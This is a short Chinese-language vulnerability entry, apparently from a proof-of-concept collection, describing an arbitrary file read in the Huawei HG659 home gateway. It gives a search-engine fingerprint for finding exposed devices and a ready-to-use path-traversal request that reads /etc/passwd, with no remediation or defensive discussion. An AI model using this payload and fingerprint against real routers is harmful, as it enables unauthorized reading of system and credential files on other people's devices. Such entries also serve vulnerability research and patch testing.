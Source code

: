 # Huawei HG659 lib 任意文件读取漏洞

# Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## 网络测绘

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](/images/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](/images/202202110951927.png)

